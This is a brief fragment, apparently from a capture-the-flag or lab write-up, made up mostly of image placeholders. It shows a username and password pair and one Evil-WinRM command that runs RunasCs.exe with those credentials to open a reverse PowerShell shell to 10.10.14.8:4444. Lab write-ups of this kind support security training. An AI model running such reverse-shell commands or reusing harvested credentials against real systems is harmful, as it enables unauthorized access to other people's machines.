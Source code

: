 ![alt text](image-10.png)

 mark.bbond  :  1day@atime






 *Evil-WinRM* PS C:\tool> ./RunasCs.exe mark.bbond 1day@atime powershell -r 10.10.14.8:4444


![alt text](image-13.png)








